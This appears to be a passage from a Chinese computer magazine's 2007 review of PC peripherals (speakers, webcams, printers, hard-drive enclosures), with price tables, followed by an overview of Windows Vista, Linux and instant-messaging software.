2.0音箱的发展成熟，目前2.1架构已经越来越边缘化。

## 2.木制音箱渐成主流

音箱所用的材料主要有塑料箱体与木制箱体之分，而多媒体音箱在发展之初以塑料箱体为主。材料厚度及质量与音箱成本有直接关系，同时还影响音箱的性能。音箱外壳的材料密度越大，发出声音时箱体所产生的振动就越小，特别是带大功率放大器的有源音箱更是如此，而板材厚度一定程度上是实现超低音效果的有力保障。因此，大部分塑料音箱的低音效果不敢恭维。

但中档音箱就肯定是木制的吗？回答是否定的。这个档次的音箱既有木制的，也有塑壳仿木制的，只是有些仿制品完全达到了以假乱真的水平。很多用户可能会问：难道2.0音箱的材质就真的那么重要吗？其实，我们并非是对塑料材质的音箱抱以偏见，而是2.0架构的低频劣势让我们不得不关注其低音表现。如果2.0音箱只是塑料材质，那么低频时的颤音以及谐振现象将会十分明显。再加上这类音箱一般放在桌面上，此时给人的感觉非常不好。相对来说，真正的木制音箱就要好得多。

在PC多媒体概念刚刚出现的时候，木制音箱几乎是市场上的绝对主流。然而发展到后期，塑料材质的音箱却以成本优势迅速冲击木制音箱的市场。而且在推崇多声道音箱的过程中，木制音箱的体积以及成本劣势使得其市场份额迅速滑落。但是，在经历过一个发展周期之后，大量用户开始减退对所谓的PC家庭影院的兴趣，反倒是纯粹的音乐欣赏再次爆发出惊人的市场潜力。为此，2.0声道木制音箱又一次流行起来，并且得到越来越多消费者的认可。从综合效率来看，塑料箱体无法与木制箱体相提并论，因此越来越多的厂商开始放弃塑料箱体。

| 产品型号 | 声道数 | 低音单元 | 高音单元 | 功率输出（单箱） | 参考价格 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 漫步者R1000TC | 2.0 | 陶瓷纸盆 | PV膜球顶 | 8W | 150元 |
| 漫步者R1800TII | 2.0 | 羊毛纤维编织盆 | 丝膜球顶 | 18W | 360元 |
| 漫步者R1900TII | 2.0 | 羊毛纤维编织盆 | 丝膜球顶 | 22W | 340元 |
| 冲击波SB-2000 | 2.0 | 纸质喷涂式盆 | 丝膜球顶 | 30W | 348元 |
| 轻骑兵C2300 | 2.0 | 强化纸盆 | 硬球顶 | 5W | 150元 |
| 轻骑兵X260 | 2.0 | 羊毛纤维编织盆 | 丝膜球顶 | 6W | 240元 |
| 轻骑兵M7 | 2.0 | 聚丙烯PP盆 | 丝膜球顶 | 20W | 320元 |
| 三诺N-35G | 2.0 | 聚丙烯PP盆 | 丝膜球顶 | 20W | 468元 |
| 三诺N-20GII | 2.0 | 强化纸盆 | 丝膜球顶 | 9W | 190元 |
| 爵士J321 | 2.0 | 强化纸盆 | 金属硬球顶 | 15W | 449元 |
| 奋达S100 | 2.0 | 羊毛纤维编织盆 | 丝膜球顶 | 18W | 198元 |

#### 摄像头

看似并不起眼的PC外设，摄像头却有着惊人的市场潜力。随着网络视频应用的普及化，摄像头逐渐成为继键盘和鼠标之后的第三大PC输入设备。与此同时，诸多著名厂商也开始推出高品质产品，并且在镜头和外观设计方面精雕细琢，令摄像头真正成为不可忽视的“大利润”小行业。

## 1.帧数率革命

今年摄像头的市场现状依然是一片混乱。从品牌来看，除了久负盛名的国际大品牌及一些国内的专业品牌之外，有很多OEM厂商也参与进来，出现了不少贴牌产品，致使品牌杂乱，没有一个能够脱颖而出且被消费者普遍熟悉的产品。但是，产品同质化的大趋势也令其整体应用效果有了不小的进步。使用过网络视频的用户一定都会对较慢的视频帧速率而感到烦恼。为了改变摄像头画面帧速率较低的局面，2007年里出现不少采用USB 2.0接口的产品。当然，这得感谢中星微等视频控制芯片厂商的努力。当USB 2.0接口的PC摄像头普及之后，30FPS帧数率变得切实可行，整体视频效果的确大幅度改善。而采用IEEE 1394接口的产品已经在今年退出市场，毕竟IEEE 1394接口的普及度还并不高。

## 2.PC摄像头像素大战

48万像素摄像头的普及是今年PC摄像头市场给人最深刻的印象。现在，30万像素的摄像头已经在市场上吃不开，毕竟其静态照片拍摄效果不是很理想。而48万像素摄像头尽管在实际动态画质方面没有明显提升，可是静态照片拍摄能力的提高还是相当明显的。对比CCD摄像头的画质，应该说CMOS感光器的细腻度有着很大的差距。但是随着CMOS感光器成本的降低以及像素的提高，再加上CCD感光器成本迟迟无法降低，2007年已经彻底宣告CCD将退出摄像头市场的争夺，未来更高像素的CMOS摄像头才是发展趋势。在年末，我们已经可以看到不少低价位的130万像素摄像头，而且绝非通过软件插值来实现。展望未来，130万像素取代48万像素将是必然的趋势（图7）。

## 3.无驱动摄像头蔚然成风

无驱动摄像头一般都获得微软Windows Vista徽标认证，意味着这款产品能够与Windows Vista顺利兼容，比起同类产品具有显著的优越性。事实上，在这几年中，摄像头技术的发展一直比较缓慢。不仅USB 2.0接口一直没能普及，就连像素提升也是举步维艰。现在，Vista操作系统所引发的无驱动摄像头潮流无疑是新技术的催化剂。在这一潮流的引领之下，大量老产品将逐渐退出市场。毕竟，用户能够从无驱动摄像头产品中得到真真切切的便利，而且几乎所有的无驱动摄像头都在像素和USB 2.0接口带宽方面有着明显的优势，从而顺利奠定其强势普及地位。

作为一种移动应用设备，摄像头的无驱动设计还大大增强了其便携性。以往，用户在携带摄像头时还不能忘记随身配上驱动程序，可是现在这已经成为过去。只要PC拥有USB接口，那么无驱动摄像头就都能随时使用，而且一台机器安装不同的摄像头也不会造成驱动程序冲突。对于应用软件开发而言，无驱动摄像头也是巨大的利好消息。以后，我们将避免各种恼人的摄像头调试步骤，而且可以让应用软件直接通过微软驱动预设相关参数，做到插上无驱动摄像头后直接使用的超爽便利。

| 产品型号 | 像素 | 接口 | 参考价格 |
| :--- | :--- | :--- | :--- |
| 台电 慧眼-MG77 | 48万 | USB 1.1 | 99元 |
| 多彩 DLV-B32 | 130万 | USB 2.0 | 99元 |
| 罗技 快看高手版PRO5000 | 130万 | USB 2.0 | 460元 |
| 蓝色妖姬 T629 | 130万 | USB 2.0 | 108元 |
| 天敏 天弓 | 130万 | USB 2.0 | 236元 |

#### 打印机

打印机市场的成长步伐在近几年一直非常稳健，而2007年更是在技术方面有了长足的进步。彩色激光打印的流行让商务办公用户有了更多的选择，普通激光打印也在成本大幅度降低之后进入了家用市场。

## 1.彩色激光打印浮出水面

随着近几年彩色激光打印技术的不断改进，相应市场也稳步地进入了成熟期，用户的需求量也在自然而然地不断提升。从欧美等发达国家来看，彩色激光打印机在商务办公、政府办公、专业输出领域的应用早已十分普及，而在国内市场的商务办公领域，也已经开始逐渐接受彩色激光打印机，并且成为主要的消费群体。据IDC最新报告，彩色激光打印机市场在将来五年中还将呈现快速增长的局面。而随着彩色激光打印技术的不断成熟，取代黑白激光打印的呼声也越来越高。

传统的彩色激光打印机使用“四次成像彩色技术”。采用这种技术的产品所生成的彩色文档由青色、品红色、黄色和黑色叠加而成，彩色激光打印机有四个装在旋转的圆柱上的硒鼓，每一个装有一种颜色的碳粉。由于打印机只有一个成像鼓，每次只能呈现一种颜色的由正/负电荷组成的“电子图像”，成像鼓吸附带有相反电荷的碳粉形成“潜影”，然后通过转印单元将“潜影”转印到打印介质上。为了印刷一个彩色的文件，必须重复四次上述的步骤，每一次为一种颜色，最后定影辊利用热熔原理，使影像牢固地附着在打印介质上，这就是彩色激光打印机的彩色打印速度一般是黑白打印速度的四分之一的重要原因（图8）。

但是，面向商务领域的应用实在无法容忍奇慢的打印速度，因此惠普的“一次成像”技术路径，是未来主流彩色激光打印机的发展趋势。

“一次成像”技术一经推出就获得极大成功。这项技术的四种颜色都有各自的成像鼓，因此可在同一时间内在四个成像鼓上分别呈现四种颜色的“电子影像”，并吸附各自对应颜色的碳粉形成四个不同颜色的“潜影”，纸张依次通过四种颜色的“潜影”转印到打印介质上，最后通过定影辊实现定影。由于颜色是一遍打印完成而不是四遍，彩色打印性能得到很大的改进，彩色打印速度与黑白打印基本一致。

惠普彩色激光打印机的“一次成像”技术采用垂直单列式架构设计，该设计比较简单紧凑，打印机体积小，通过打印正面的前门便可更换所有耗材，并可容易访问整个走纸路径，便于清除卡纸。而传统水平单列式结构走纸路径在硒鼓下面，不同部位的卡纸需要通过不同的检修门清除，有时还需要移动四个碳盒和成像鼓，成像鼓暴露光线可能导致损害。惠普全新的走纸通道和硒鼓垂直放置设计可谓是针对“一次成像”技术而推出，优点在于拥有比较简单的机械设计，并且占地空间也比较小。当然，目前除了惠普以外，包括OKI、佳能、爱普生、利盟、柯美等都拥有类似“一次成像”的技术，可以直接将彩色激光打印速度提高四倍。这些相关技术的原理基本相通，都是建立在先进制造工艺的基础上，并且改进了走纸路径。

## 2.高品质移动商务办公：便携与速度两全其美

移动办公在现代商务中的应用使得便携式打印机的呼声越来越高。传统打印机的体积让便携打印一直是一种奢望，毕竟重达4kg以上的普通打印机重量不是每一个用户都能承受。为此，移动打印机的重量普遍在2kg以内，而且体积也不会明显大于最大输出幅面。对于移动设备而言，解决能源问题十分关键。移动打印机专用的电源适配器一般都非常小巧，而且通常还可以选配汽车电源适配器。如果需要移动办公，那么内置电池组的充电器配合充电支架将是最完美的解决方案。自带充电电池的便携打印机可以说是真正意义上的移动打印机（在办公室里可以使用普通的电源，在户外可以使用充电电池供电），完全抛开了打印机的动力限制。

在商务应用方面，A4幅面几乎已经成为默认的标准，而部分超便携产品往往只能打印A5甚至A6幅面，这就带来很大的不便。既然是面向移动办公用户的产品，做到A4幅面输出应该是必然的。除此之外，移动打印机也要求具备较高的打印速度。以佳能i80为例，这款产品具备1088个（320个黑色喷嘴，768个彩色喷嘴）总喷嘴数目，拥有14ppm/11ppm的黑色/彩色打印速度，能够充分适应当今的高节奏办公时代。

## 3.照片输出品质：袖珍型打印机不甘示弱

能够放入挎包的袖珍型打印机自然让“驴友”们开心不已，因为那种走到哪里拍到哪里，并且随时打印的乐趣非常诱人。我们对于照片输出的需求可以分为精度与色彩两方面，而目前袖珍型打印机无疑交出了让人满意的答卷。凭借打印头控制技术，大部分袖珍型喷打都能输出5微微升以下的墨滴。

| 产品型号 | 打印方式 | 速度 | 分辨率 | 参考价格 |
| :--- | :--- | :--- | :--- | :--- |
| 惠普 Color LaserJet 1600 | 彩色激打 | 8ppm（彩色） | 600×600dpi | 2050元 |
| 佳能 LBP-5000 | 彩色激打 | 8ppm（彩色） | 9600×600dpi | 2780元 |
| 柯美 magicolor 2500W | 彩色激打 | 5ppm（彩色） | 2400×600dpi | 2500元 |
| 惠普 LaserJet 1020plus | 黑白激打 | 14ppm | 600×600dpi | 1100元 |
| 三星 ML2010 | 黑白激打 | 20ppm | 1200×600dpi | 930元 |
| 富士施乐 Phaser3117 | 黑白激打 | 17ppm | 600×600dpi | 920元 |
| 佳能 LBP-3000 | 黑白激打 | 4ppm | 2400×600dpi | 1250元 |
| 爱普生 Stylus Photo R270 | 彩色喷墨 | 30ppm | 5760×1440dpi | 1450元 |
| 惠普 Photosmart D5168 | 彩色喷墨 | 31ppm | 4800×1200dpi | 790元 |
| 佳能 PIXMA iP3300 | 彩色喷墨 | 25ppm | 4800×1200dpi | 680元 |

#### 移动硬盘

分辨率更为重要，能够确保输出的图像没有明显的颗粒感。不可否认，大多数用户都非常关心打印机色彩表现能力，专业用户更是如此。多色打印所带来的好处毋庸置疑，六色打印加入淡品红和淡青色之后对于色彩表现的改善显而易见，而如今的七色与八色打印更是达到出神入化的境地。但是由于袖珍型喷打需要控制体积，因此很少使用六色以上的打印技术，一般坚持使用四色或是五色打印。不过以佳能为例，倚仗出色的墨水技术以及色彩优化技术，其四色打印已经具备很不错的色彩表现力，可谓在便携性与多色打印之间寻找到不错的平衡点。

很多人对移动硬盘的了解仅限于数据拷贝，但是现在越来越多的厂家将更多的功能添加到了移动硬盘盒内！有些可以直接通过设定在硬盘盒表面的按键直接对文件进行备份还原，还有的内置播放模块并借助硬盘存储功能播放视频影片，甚至连网络中的文件共享都可以轻松实现。

### 1.移动视频播放硬盘盒

能够支持视频播放功能的视频的移动硬盘盒在近期非常受欢迎。由于视频解码芯片和视频输出芯片的成本不断下降，造成这类产品可以轻轻松松把价格控制在400元以内，所以性价比非常突出。配合一款2.5英寸的笔记本硬盘，就可以让大容量的视频与音频文件随身携带，这自然是很不错的选择。

一般而言，这类高性价比移动视频播放硬盘盒并不采用CPU结合软件Codec的全能方式，而是利用集成化的视频芯片解决方案。与众多高档MP4相比，此时的劣势在于对于各种视频格式的兼容性。以比较普及应用的ESS Vibratto为例，尽管可以支持AVI（DivX）、MPEG1/2、WMV等，但是碰到xVID编码以及一些特殊的OGG编码就无能为力。当然，这类视频解码芯片在应对基本视频格式的时候还是完全够用的，因此大家在选购产品时应当仔细辨别其支持能力，毕竟不同解码芯片的兼容性是大有区别的。

### 2.视频输出功能

视频输出功能也是一款移动视频播放硬盘盒的关键。如果只能输出AV或S-Video，那么其视频质量肯定无法令人满意，甚至连基本的画面稳定性都没有很好的保障。相对来说，我们认为D-Sub输出是最基本的功能，毕竟现在几乎大多数电视机都拥有D-Sub（VGA）接口。此外，同样是D-Sub输出，有些产品能够达到SVGA标准的800×600像素分辨率，而有些则只能实现640×480像素分辨率。800×600像素分辨率已经得到很多高清CRT电视机的支持，在播放DVD以及一些高编码速率的影片时很有好处。当然，少数高档产品还提供DVI以及HDMI接口，并对应液晶电视的宽屏分辨率，那就更加理想了（图9）。



### 3.数码伴侣功能

数码伴侣盒正是借鉴了移动硬盘盒的成功经验，是一种低价数码伴侣的解决方案。我们所要选购的数码相机伴侣盒一定要做到卡通吃、玲珑八面，这样才能适应数码产品的飞速发展，也为以后购买别种类型的存储卡做好了准备。所谓“未雨绸缪”，谁能保证我们以后只会使用一种存储卡呢？一般来说，支持存储卡种类越多，这种产品的兼容性越好、适用范围越广，虽然价钱可能会比四合一、六合一的贵上几十元，但从长远来看，选择这类设备绝对是没有错的。少数数码伴侣盒还支持USB HOST功能，也就是说可以作为主机将任何USB设备终端上的数据下载，对于兼容一些移动硬盘以及U盘是很有帮助的。

此外，数码伴侣盒的存储空间与便捷性是我们最为看重的。数码伴侣盒的工作原理是将存储卡数据转移到其内置的硬盘上，因此内置的硬盘容量有多大就直接决定其承载能力。此外，数码伴侣盒的内置硬盘分为2.5英寸和3.5英寸两种，前者的便携性显然要出色得多，而后者的体积实在是太过庞大，唯一的优势便是低价格。最后，我们还不要忘记关注一下数码伴侣的电池能力，如果电池续航时间太短，在户外使用时会非常尴尬，此时根本无法将存储卡中的数据及时转移到内置硬盘中，而且低供电状态下很容易造成数据丢失以及分区表被破坏。

### 4.网络硬盘共享盒

网络硬盘共享盒一般提供一个10M/100M的RJ45接口，它可以直接连接在公司内部的网络交换机或是路由器上，这样在同一个网段内的电脑都可以访问这个网络硬盘，共享硬盘上的文件。网络硬盘共享盒特别适合多台电脑共享设计素材，为整个公司的电脑提供额外的数据备份空间，让数据的存储、备份、共享更加方便，更加安全。当然，这类产品同时也配置了一个USB 2.0接口，单机使用的时候和其他普通移动硬盘盒没有任何区别，加强了产品的通用性。

尽管网络硬盘共享盒的实用性已经非常突出，但是市场上的大部分产品还是在此基础上融合更多的功能。最典型的例子莫过于直接整合无线宽带路由器，此时路由器内部可以安装一个硬盘，作为局域网共享。有一些先进的产品还实现了BT下载，这样挂BT时就能不用开着主机，节省了大量电费。对于网络硬盘共享盒而言，我们认为提供稳健的供电方案以及散热措施是非常关键的。由于这类产品中的硬盘几乎时刻需要工作，所以最让人担心的还是其寿命。此外，网络硬盘共享盒能够配合智能电源管理功能实现硬盘待机状态甚至关闭状态也是不可忽视的功能，少数低价位产品因为缺少该功能而导致硬盘寿命大幅度缩短。

| 产品型号 | 容量 | 特殊功能 | 缓存 | 接口 | 参考价格 |
|----------|------|----------|------|------|----------|
| 旅之星超薄增强型 | 80GB | 超薄防震 | 8MB | USB 2.0 | 579元 |
| 爱国者移动存储王III代智能安全型 | 80GB | 加密 | 8MB | USB 2.0 | 1399元 |
| 三星雷霆王(200G) | 200GB | 加密、防震 | 8MB | USB 2.0 | 2500元 |
| 忆捷数码之星DA-001 | 20GB | 数码伴侣 | 2MB | USB 2.0 | 399元 |
| 爱国者电视伴侣王UH-P611A | 40GB | 视频播放输出 | 8MB | USB 2.0 | 2900元 |

### 风向标：2007热门软件技术及应用

◆文/彭文波

回望2007，有激情也有迷惘，有盼望也有失望……各种滋味掺杂在国内外软件发展的大餐里。在这一年中，有后起之新秀，横空出世而独领风骚；有王者之遗风，让人望眼欲穿而品头论足；有徘徊于原地，仿徨而踌躇满志……本专题将重点介绍本年度发展最热门的软件技术，通过分类点评，使用户有一个直观而具体的认识。

#### 一、系统软件篇：Vista与Linux

谈到系统软件，本年度的热点必然要扯上Windows Vista和Linux。Windows Vista不仅是微软提供给我们的视觉盛宴，而且其功能也有了显著的提升，尤其是在计算机安全、信息隐蔽性与可管理性上做出了大幅改进。不过，相比Windows XP等版本的发布，软件所面临的非议更多。另一方面，随着界面的亲和友好程度不断提高，Linux在服务器、台式机、手机领域的市场份额也在不断提高，这已经是一个不争的事实。两杆大旗交相辉映，成为2007年两道独特的风景。

##### 1. Windows Vista：在争议中前行

2006年11月30日，Windows Vista正式发布。“Vista”一词源于拉丁文的“Vedere”，在包括英语在内的大多数语言中有“远景、展望”之意。微软公司将其下一代具有里程碑意义的操作系统定名为Vista，除了希望它能展望未来，继续执掌操作系统大旗之外，更是为未来个人电脑乃至其他个人电子设备的技术和创新铺路，引领下一代计算机使用新体验。进入2007年，微软对Windows Vista的宣传仍然是一路高歌，许多用户对其津津乐道，大范围的评测、大范围的试用已经全面展开。作为下一代操作系统，Windows Vista实现了技术与应用的创新，在安全可靠、简单清晰、互联互通，以及多媒体方面体现出了全新的构想，努力地帮助用户实现工作效益的最大化。

首先，在安全技术方面，微软为保护系统不受侵害而煞费苦心地在Windows Vista中推出了全新安全模块User Account Control（简称其UAC）。它要求所有用户在标准账号模式下运行程序和任务，当用户进行一个对整个系统有影响的操作时，会先中断该操作，并提示用户进行确认或者取消；如果当前用户不具备管理员权限，那么会提示输入管理员账户及密码。这样即可防止病毒、木马及其他恶意软件在后台偷偷地运行，实施破坏操作。

> <小知识>
Windows Vista一共提供了三种权限：“读者”、“参与者”和“共有者”。其中，读者权限将只能查看共享文件的内容；参与者权限既可以查看文件，添加文件，还可以删除自己添加的文件（单独共享文件则无此选项），但是不能删除其他用户添加的信息。而共有者则具有对文件资源操作的最高权限，包括查看、更改、添加和删除所有共享的文件。默认情况下，用户的权限为读者。

其次，在界面和搜索功能上。Windows Vista用户几乎都会惊讶于其半透明效果的界面、纵深感的3D切换界面和动态预览。在Windows Vista平台上，通过将应用程序生成的文档和数据集成到“搜索和组织”体验中，用户可以更容易找到信息。无论是开始菜单还是应用程序的每个窗口都有动态搜索栏，真正实现了“搜索无处不在”。而且用户也可以自己保存搜索结果，有效地节省了搜索的时间，提升了工作效率。

再次，在图形、游戏和功能扩展方面，Windows Vista也有很多技术创新。通过Windows SideBar的新平台，Windows Vista支持OEM厂商和通用设备制造商所设计的便携式计算机、键盘、手机、远程控制单元或其他设备的第二个显示屏，很好地扩展了笔记本电脑和其他连接设备的实用性。Windows Vista的photo gallery不仅实现了图片的管理，还能对照片进行简单的修复，并做成电影刻成一张Movie。最关键的是，Windows Vista已经支持高清视频的输出模式，用户可以将自己拍摄的影像进行编辑，然后制成高清的电影等。

总的看来，Windows Vista提供了一个更简单，更便捷，界面更美观，兼容性更好，开发成本也更低的平台。这种对标准的提升，将有利于基于操作系统平台上的软件开发商能够更加专注地开发配套软件，也使得软件的开发更加轻松，更容易地实现用户对未来的生活梦想。

不过，上市一年多来，这个微软呕心沥血多年的新操作系统似乎叫好不叫座，我们现在90%人的电脑里依旧是运行着蓝天绿草的Windows XP，甚至有相当比例的用户甚至在购买了Windows Vista机型之后，选择了删除Windows Vista改装Windows XP。究其原因有如下几点：

- 其一，硬件配置过于苛刻。

使用之初，就有不少用户反映Windows Vista对内存需求量甚多，系统要求的耗电量大。升级成本是企业在平台迁移中必须面对的问题，而操作系统的每次升级都会带来一批硬件的淘汰。Windows Vista重构了显示驱动模型，完全体验它的代价是大批显卡必须更换。而有很多显卡是集成在主板上的，集成显卡的主板又有相当一部分是笔记本电脑或品牌台式机的一部分。这样，显卡的更换往往意味着整块主板甚至整台机器必须换掉。Windows XP在过去的五年里积累了95.2%的硬件支持，在网上很容易就可以找到硬件厂商公布的相应驱动程序。如此考虑，这对于预算紧张的个人和中小企业用户来说，的确是一个大问题。

- 其二，兼容性欠佳。

目前，很多常用软件尚未推出支持Windows Vista的稳定版本。有用户认为：“Vista为了实现透明/半透明的显示效果，不允许第三方软件直接写屏，导致现有的很多应用软件不能正常地在Vista上运行。”对于重视安全的用户而言，特别是企业用户，放弃Windows Vista最大的原因就是安全隐患以及兼容问题。对于硬件产品的兼容性(特别是那些老硬件产品)，比如摄像头、数码相机、打印机等，由于开发商没有开发对应的新驱动，导致在Windows Vista平台下使用出现各种问题。比如数码相机不兼容，致使图片无法直接在Windows Vista上编辑等。

- 其三，用户的习惯性也是个重要问题。

毕竟Windows XP已经服役了近7年，很多用户已经培养了深厚的感情。对于使用了多年的Windows XP用户，刚开始使用Windows Vista平台时，在工作效率上总会打些折扣，比如Windows Vista不支持智能ABC输入法，这对于广大用户是极其痛苦的事情。

- 其四，安全和升级问题。

虽然微软声称Windows Vista是目前最安全的操作平台，但其Bug总是不可避免的。2007年以来，有关Windows Vista SP1的传闻沸沸扬扬，其升级内容也涵盖了可靠性、安全性、管理技术以及对新技术提供支持等等。即使在安全方面，用户使用过程中也存在不少问题。以安全桌面提示框为例，其实这个功能的本意是非常好的，可以增加UAC功能的安全度，但在安装各类软件的时候会经常碰到这个安全桌面，如果设置不当，就会觉得很不习惯。

> 💡 小技巧
一般建议用户使用这个安全桌面。如果需要屏蔽安全桌面提示框，可以使用以下方法：(1) 打开“开始”菜单，运行secpol.msc，弹出“本地安全策略”管理单元窗口。(2) 在左侧的控制台树中依次展开本地策略、安全选项，在右侧的详细窗格里双击“用户帐户控制: 提示提升时切换到安全桌面”策略项。(3) 在打开的对话框里选中“已禁用”选项。

不过，随着软件功能的日渐完善、硬件升级速度的加快以及用户普及程度的提高，Windows Vista的普及程度也将越来越快。据微软官方的估算数据，Windows Vista的普及速度将是Windows XP的两倍。IDC也预计，Windows Vista在2008年的销量将达到9000万套。经历了一年多的磨合与测试，以及即将到来的2008年奥运会，Windows Vista的表现值得我们期待。

##### 2. Linux：在发展中壮大

在Vista热流的后面，是Linux的暗潮涌动。根据赛迪《2007年第一季度中国Linux软件市场分析报告》中的数据显示，操作系统市场销售额12.34亿元人民币，比2006年一季度增长9.4%。Linux则继续位居操作系统产品增长之首，销售额达到了3100万元，市场同比增长率达到30.9%，继续保持较快增长态势。在这种大好趋势的背后，是Linux在技术上的不断推陈出新。

- 其一，Linux内核技术发展越来越成熟。

在行业标准方面，为了加强Linux行业竞争力，“开放源码开发实验室（OSDL）”和“自由标准集团（FSG）”合并为“Linux基金会”，并推出了测试工具，从而强化Linux标准。这将积极推进Linux的易用性和低成本优势。2007年，新型文件系统ReiserFS继续发展，官方的ext4标准也很让人期待。有了优秀的内核为基础，Linux的发展前景更让人期待。

> 💡 小知识
ReiserFS是一种新型的文件系统，由著名的Linux程序员Hans Reiser开发。它通过一种与众不同的方式——完全平衡树结构来容纳数据，包括文件数据、文件名以及日志支持。相对于Linux上传统的ext2文件系统，ReiserFS有很多优点，如搜索速度更快；ReiserFS里的目录是完全动态分配的，在空间分配和利用上更加合理；先进的日志机制，在系统意外崩溃的时候，未完成的文件操作不会影响到整个文件系统结构的完整性；支持海量磁盘和优秀的综合性能等。
Linux的发行版本其实就是Linux核心再加上外围的实用程序组成的一个大软件包。相对于Linux操作系统内核版本，发行版本的版本号随发布者的不同而不同，与Linux系统内核的版本号是相对独立的。各种Linux发行版推动了Linux的应用，因此把RedHat等直接说成是Linux是不确切的，它们是Linux的发行版本，是“以Linux为核心的操作系统软件包”。

- 其二，Linux赢得更多在第三方软件厂商的支持。

新产品和新技术的不断推出正是各厂商迎接外部挑战，服务消费者需求的直接表现。在市场方面，面对行业内外的竞争压力，各路厂商也纷纷出招。2007年1月，中科红旗与日本MiracleLinux、韩国韩软公司签署安全Asianux操作系统联合开发协议。Novell公司在BrainShare大会发布了SUSE Linux Enterprise 10；拓林思进一步加强与英特尔在虚拟化技术方面的合作，使得拓林思成为国内首个支持VT的Linux发行商。此外，Google也发布了Linux发行版的Picasa，Adobe宣布推出Flash Player 9和Flex2 的Linux版本，著名的WOW（魔兽世界）游戏在第三方软件的帮助下可在Linux下顺利运行并获得Blizzard公司官方认同、Intel公司发布了其显卡的Linux驱动。此外，还有Firefox浏览器、mplayer、Apache、MySQL等。看来Linux还得多多努力，在紧密团结GNU组织的同时，更要努力让众多优秀的第三方软件公司看到发展曙光。

- 其三，在虚拟技术上更多突破。

2007年，VMware进一步鼓励独立软件厂商（Independent Software Vendor, ISV）来发布他们产品的虚拟应用，通过对相关组件进行定制，而独立软件厂商不用返还任何授权费用给任何操作系统提供商。值得一提的是，继SUSE Linux enterprise 10集成和支持Xen 3.0后，2007年5月，在Red Hat Enterprise Linux 5（RHEL5）Beta测试版中，Red Hat也加入了Xen虚拟技术。

> 💡 小知识
Xen是可用于Linux内核的一种虚拟化技术，能使一台计算机运行多个操作系统，以提高计算机的工作效率，另外还能让计算机底层运算更加可靠灵活，不过需要对基础的操作系统做一下改变。

- 其四，Linux手机软件发展前景喜人。

2007年的Linux手机软件在第一季度的喧嚣中开始发力了，现在有两类公司是Linux手机软件的主力，一类是独立软件提供商，如Access/Palmsource、Trolltech、Mizi等；另一类是自主研发的手机厂商/运营商，如Motorola、Nokia、NTT DoCoMo/NEC/Panasonic、Cellon、Purple Labs。同时，在Nokia、法国电信等公司的持续努力下，开源社区开始意识到Linux手机/嵌入式需求巨大，一批开源项目涌现出来，其中Maemo (http://www.maemo.org) 、OpenMoko (http://www.openmoko.org) 和GPE Phone Edition (http://gpephone.linuxtogo.org) 的影响较大。由于背后有一些成熟的商业公司作为支持，以及相关的开源项目日趋成熟，他们的发展前景很不错。

新产品不断推出，让我们看到了Linux发展的美好前景。2007年3月，红帽分别在美国旧金山和亚洲的新加坡发布Red Hat Enterprise Linux 5，其最大的亮点就是虚拟化技术；2007年4月，Ubuntu 7.04正式发布，并在内核与桌面支持方面有很大提高。同时，我们也看到，通过收购JBoss软件，Red Hat正努力推动Linux的发展；而Novell和IBM也开始联手合作，发布能够在SUSE Linux上运行的各种应用软件。所有这一切，我们都看到了一个实实在在发展着的Linux未来。

#### 二、网络软件篇：开启一个崭新的网络时代

网络时代，迎合网络需求而诞生的软件成为一道独特的风景线。从QQ到MSN，从IE浏览器到Google搜索，无不展示着网络的强大力量。如今，以Web2.0为主导的网络世界也在悄然发生变化：用户创造内容（UGC）、个性化定制、社会化、存储空间的网络化、操作系统概念的弱化，浏览器服务成为网站提供的主要产品，分布式计算模式开始取代传统的客户机/服务器模式，细细罗列，我们可以大致看到网络世界的发展趋势。

##### 1. 体贴入微的聊天软件

#### (1) QQ 2007&TM 2008

在广大用户的热切企盼下，QQ2007正式版全新面世，这个版本加入了不少人性化的即时通信技术，并融入了腾讯公司一些新的理念：一切以用户价值为依归，以用户体验为中心，提供最尊重用户的贴心服务。在2008的召唤下，TM 2008 Preview也早早出场，这是腾讯公司侧重于办公环境中使用的一款IM产品，软件可支持Windows Vista操作系统，并在界面上有很大改变。如图1所示，左边是QQ2007，右边是TM2008。下面，重点对本年度的主打产品QQ2007进行介绍。



软件下载地址：http://im.qq.com

首先，软件安装界面亲和度明显加强。安装过程中，在设置QQ医生查杀木马时，多出了一个“登录前不查杀”选项。这应该是许多用户的重要反馈之一了，因为很多电脑基本上都安装了杀毒软件，而不愿意在登录QQ时浪费时间进行无谓的等待。登录QQ后，在主面板图中，可以发现状态图标的变化了，描述也进行了更改，包括：“我在线上”、“Q我吧”、“忙碌”、“离开”、“静音”、“隐身和离线”等。上述状态被启用后，使用2007正式版的用户可以在头像上看到相应小标志。此外，QQ2007正式版中自带的“默认”表情全部进行了重新绘制，新表情比原来略大一些，色彩更鲜艳，最重要的是表情动作更俏皮可爱，以后要表达某种心情时就可以轻松做到“信手拈来”。

- 我在线上
- Q我吧
- 忙碌
- 离开
- 静音
- 隐身和离线

其次，新添加了“消息盒子”功能。其实这个功能早在TM2005中就已经出现了，不过2007正式版则是第一次推出。有了它，未查看的消息会自动保存在“消息盒子”里，将鼠标移动到QQ托盘图标上时，弹出的“消息盒子”会自动显示所有缩略的未查看消息，可根据需要，自由选择查看。当你收到的未读消息很多而且来自不同好友时，这个功能可将垃圾消息的骚扰降低到最小。点击“预览”可以对未读消息进行方便地预览查看，并可快速回复。

再次，提供了方便的离线文件传送功能。比如，我们有时想给好友传个文件，好友不在线时，就只能通过邮箱等方法来解决了。新版中的“离线文件传送”功能可以很好解决这个难题，不过在传送文件的两方中必须至少有一个是会员才可以，否则会自动取消离线传送。在聊天窗口中，点击“传送文件”按钮，下拉菜单中多出了“发送离线文件”选项。选择它来发送文件就可将文件暂时传送到QQ的服务器中，当好友上线时，便会收到接收文件的提示。

> **小技巧**

在正式版中，“隐身对好友可见”功能已经不再是会员专属了，右击想要隐身时也能看见你的好友头像，在快捷菜单中选择“隐身对其可见”即可。

总的来说，QQ2007正式版的新功能很丰富，“消息盒子”、“离线文件传送”和新增的在线状态，这些都很实用。另外，QQ提供的拍拍网用户管理面板的功能很像“淘宝旺旺”，也在一定程度上反映了QQ今后发展的商业味道会更浓。

###### (2) Windows Live Messenger V8.5

软件下载地址：http://download.microsoft.com/

2007年，MSN开始更名为Windows Live Messenger。就像一个皇帝更改国号一样，总得有点新动作吧。的确，从更名为Windows Live Messenger开始，微软加大了对Windows Live Messenger的开发投入，最近的Windows Live Messenger V8.5版本就是其中的一个优秀作品。

